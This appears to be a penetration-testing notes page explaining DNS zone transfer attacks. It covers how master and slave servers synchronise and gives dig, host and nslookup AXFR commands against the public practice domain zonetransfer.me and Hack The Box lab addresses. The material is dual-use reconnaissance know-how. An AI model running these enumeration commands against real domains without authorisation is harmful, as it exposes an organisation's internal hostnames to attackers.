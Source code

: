 # DNS Zone Transfer Attack

* Synchronization between the servers involved is realized by zone transfer
  * Using a secret key `rndc-key`,
    * the default configuration, the servers make sure that they communicate with their own master or slave
* The slave fetches the `SOA` record of the relevant zone from the master at certain intervals,
  * the so-called refresh time,
    * usually one hour
  * compares the serial numbers
  * If the serial number of the SOA record of the master is greater than that of the slave, the data sets no longer match.

### Remarks

* if box is ubuntu and using dns tcp on port 53
  * might be susceptible to zone transfer attack

***

### Attack Internet

* get the name server

```bash
dig soa ZoneTransfer.me
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

* Exploit Zone transfer
  * linux
    * `dig axfr @nsztm1.digi.ninja zonetransfer.me`
    * `host -t axfr zonetransfer.me nsztm1.digi.ninja`
  * windows
    * `nslookup -type=axfr zonetransfer.me nsztm1.digi.ninja`

### Attack HTB

```bash
nslookup
```

```bash
server <server to ask for DNS request>
```

* ask the dns server to query it self

```
10.10.11.166
```

* for zone transfer

```bash
dig axfr @dns.server.ip top_level_domain.com
```

* example

```
dig axfr @10.10.10.123 friendzoneportal.red
```

## Reference

* https://yogesh-verma.medium.com/zone-transfer-attacks-a-practical-guide-to-detection-and-prevention-2e8346d0297e
